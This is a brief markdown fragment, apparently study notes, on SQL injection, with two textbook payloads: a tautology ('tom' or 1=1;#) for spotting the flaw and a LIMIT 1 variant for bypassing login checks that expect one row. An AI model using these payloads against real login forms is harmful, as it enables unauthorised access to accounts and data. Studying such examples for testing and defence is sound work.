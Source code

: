 ### Identifying SQL Injection Vulnerabilities
```
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```

### Authentication Bypass
```
Some programming languages have functions that query the database and expect a single record. If these functions get more than one row, they will generate an error
select * from users where name = 'tom' or 1=1 LIMIT 1;#
```
